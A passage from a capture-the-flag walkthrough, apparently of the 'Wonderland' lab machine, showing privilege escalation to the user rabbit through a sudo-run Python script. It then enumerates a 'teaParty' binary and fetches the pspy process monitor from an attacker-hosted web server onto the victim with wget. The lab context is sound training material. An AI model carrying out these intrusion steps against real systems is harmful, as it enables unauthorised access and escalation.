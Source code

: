 Then we need to change the permissions of the program with `chmod +x random.py`. Then we can run `walrus_and_the_carpenter.py` as rabbit with `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`.
<br>
<br>

![](/assets/images/wonderland/wonderland_user_rabbit.png)
<br>
<br>

## More User Enumeration
Taking a quick look around, there's an executable binary called `teaParty`. Unfortunately we cannot see what sudo priveleges we have since we don't know the rabbit's password.
<br>
<br>

![](/assets/images/wonderland/wonderland_rabbit_enum.png)
<br>
<br>

I think its a safe bet to say that there's something to the `teaParty` file. In order to get a better idea of what it does, let's run it.

```
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Thu, 16 Jul 2020 22:41:34 +0000
Ask very nicely, and I will give you some tea while you wait for him
```

It appears that there might be a `date` function being called. In order to get a better look, I'm going to use a program called `pspy` which you can read about and download [here](https://github.com/DominicBreuker/pspy). `Pspy` is a way to monitor linux processes, and give us a better idea of what functions the executable is calling on, and with what id#. I think the easiest way to use `pspy` in this situation is to just run two ssh sessions and monitor one with `pspy`while we run `teaParty` on the other. The first step is to spin up a web server on your attacking machine in the directory that holds `pspy` with `python3 -m http.server`. Once that's done, you can download it onto the victim machine with `wget http://<your-ip-address-here>:<port #>/pspy64`. Here are the results from `pspy`:
<br>
<br>
